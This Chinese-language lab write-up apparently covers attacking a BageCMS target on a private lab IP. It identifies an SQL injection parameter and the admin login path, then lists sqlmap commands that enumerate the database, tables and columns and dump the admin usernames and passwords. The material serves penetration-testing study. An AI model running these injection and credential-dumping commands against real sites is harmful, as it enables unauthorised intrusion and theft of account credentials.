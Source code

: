 



### Target2

##### 查看源码

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-54.png)

明确给出SQL注入漏洞点。

```shell
http://192.168.22.128/index.php?r=vul&keyword=1 		#sql注入
```

通过robots.txt文件找到了后台地址（网上查找资料即可补全）

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-55.png)

```shell
http://192.168.22.128/index.php?r=admini/public/login 	#后台
```



##### 爆数据库

通过sqlmap获取账户密码，后台进行登录。

```shell
#爆库名
sqlmap -u "http://192.168.22.128/index.php?r=vul&keyword=1" -p keyword --dbs
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-56.png)

```shell
#爆表名
sqlmap -u "http://192.168.22.128/index.php?r=vul&keyword=1" -p keyword -D bagecms --tables
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-57.png)



```shell
#爆列名
sqlmap -u "http://192.168.22.128/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin --columns
```

![70-58](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-58.png)



```shell
#脱库
sqlmap -u "http://192.168.22.128/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin -C username,password --dump
```
